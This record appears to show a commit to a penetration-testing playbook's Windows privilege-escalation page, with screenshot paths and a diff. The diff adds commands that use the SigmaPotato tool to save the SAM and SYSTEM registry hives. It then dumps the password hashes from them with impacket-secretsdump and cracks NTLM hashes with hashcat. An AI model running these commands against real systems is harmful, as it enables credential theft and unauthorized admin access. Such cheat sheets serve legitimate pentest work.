

Before and after one commit to stafford-m/pt-playbook, an MkDocs documentation site: the page built from docs/privesc/windows/othercomponents.md, in a window 1280 px wide and 900 px high, scrolled down 1201 px. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 1808 px from its top, so only the background shows below that.

Commit message:
made it better

````diff
--- a/docs/privesc/windows/othercomponents.md
+++ b/docs/privesc/windows/othercomponents.md
@@ -67,6 +67,21 @@ wget https://github.com/tylerdotrar/SigmaPotato/releases/download/v1.2.6/SigmaPo
 .\SigmaPotato "net user admin2 password123 /add"
 ```
 
+hash dump bypass
+```powershell
+.\SigmaPotato.exe "cmd /c reg save HKLM\SAM C:\temp\SAM && reg save HKLM\SYSTEM C:\temp\SYSTEM"
+```
+
+Secrets dump for hashes
+```bash
+impacket-secretsdump -sam SAM -system SYSTEM LOCAL
+```
+
+hashcat for cracking
+```bash
+hashcat -m 1000 141_hashes.txt /usr/share/wordlists/rockyou.txt
+```
+
 Check work
 ```powershell
 net user
````
Also changed, not shown: docs/activedirectory/kerberoasting.md (+5 -0 lines), docs/activedirectory/passwordattacks.md (+0 -1 lines), docs/generic/filexfers.md (added, +25 -0 lines), docs/generic/pivoting.md (+1 -1 lines).
